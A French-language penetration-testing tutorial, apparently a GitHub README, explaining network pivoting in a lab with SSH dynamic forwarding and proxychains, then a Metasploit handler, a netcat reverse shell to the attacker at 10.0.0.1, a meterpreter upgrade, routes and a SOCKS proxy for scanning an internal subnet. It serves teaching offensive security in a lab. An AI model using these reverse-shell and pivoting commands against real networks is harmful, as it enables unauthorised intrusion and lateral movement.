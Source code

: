 # Comment faire un pivot
## Introduction
Le but est de faire communiquer la machine kali avec la machine sur l'autre réseau par le biais du pivot.
Pour bien comprendre le pivot dans un réseau, on va y aller avec 3 machines en 2 parties, d'une part le pivot linux, puis le pivot Windows :
### Première partie
![Pic1](img/Pivot_1.PNG?raw=true)</br>
### Deuxième partie
![Pic2](img/Pivot_2.PNG?raw=true)</br>

## Première partie

### Pivot Proxychains & SSH
Sur l'attaquant :
```bash
# Redirection ssh, tout le traffic qui va sur 9050 est redirigé en ssh vers 10.0.0.10
# -f pour exécuter en tant que service
# -N pour ne pas exécuter de commande
# -D pour indiquer un port forwarding dynamique
$ ssh -f -N -D 9050 msfadmin@10.0.0.10

# Proxychain redirige tout le flux de la commande vers 9050 (son port par défaut dans /etc/proxychains.conf)
$ proxychains nmap 192.168.0.110 -p 135,139,445
```
![Pic3](img/Pivot_3.PNG?raw=true)</br>

### Pivot Meterpreter & Socks
Il faut avoir un shell déjà sur la machine, je vais en faire un avec netcat :
```bash
$ msfconsole
msf > use exploits/multi/handler
msf > set lhost 10.0.0.1
msf > run
```
```bash
$ sudo netcat -e /bin/bash 10.0.0.1 4444 
```
```bash
msf > background
msf > sessions
```
![Pic4](img/Pivot_4.PNG?raw=true)</br>
On transforme le shell en shell meterpreter :
```bash
msf > sessions -u 1
```
![Pic5](img/Pivot_5.PNG?raw=true)</br>
Nous allons maintenant mettre en place le proxy sock de meterpreter en arrière plan :
```bash
msf > route add 192.168.0.0/24 2
msf > use auxiliary/server/socks_proxy
msf > set srvport 9050
msf > set version 4a
msf > run -j
```
Dans une nouvelle fenetre, on peut alors taper du nmap :
```bash
$ proxychains nmap -p 135,139,445 192.168.0.110
```
![Pic6](img/Pivot_6.PNG?raw=true)</br>

## Deuxième partie

Pour un pivot Windows, refaire le pivot Meterpreter & Socks.